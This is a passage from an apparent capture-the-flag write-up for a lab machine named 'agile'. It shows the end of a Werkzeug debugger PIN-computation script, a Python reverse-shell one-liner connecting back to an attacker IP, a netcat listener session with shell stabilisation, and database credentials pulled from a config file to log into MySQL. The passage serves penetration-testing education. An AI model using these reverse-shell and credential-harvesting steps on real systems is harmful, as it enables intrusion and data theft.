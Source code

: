 ```python
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num
print(rv)
```

![website](7.png)

Now in the console I'll execute the following python script to get a shell.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.9",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

```terminal
[★]$ nc -lvnp 9001      
Listening on 0.0.0.0 9001
Connection received on 10.10.11.203 46674
$ python3 -c 'import pty; pty.spawn("/bin/bash")' 
python3 -c 'import pty; pty.spawn("/bin/bash")'
(venv) www-data@agile:/app/app$ export TERM=xterm
export TERM=xterm
(venv) www-data@agile:/app/app$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                                                                                              ★]$ stty raw -echo; fg       
[1]  + continued  nc -lvnp 9001

(venv) www-data@agile:/app/app$
```

## **Privilege Escalation**

On the `/app` directory we find a config file with db credentials.

```json
{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}
```

Let's connect to the database and see what's there.

```terminal
(venv) www-data@agile:/app$ mysql -u superpassuser -p                                                                                                                                         
Enter password:                                                                                                                                                                               
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 778
Server version: 8.0.32-0ubuntu0.22.04.2 (Ubuntu)

mysql> use superpass;   
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
                                               
Database changed                    
```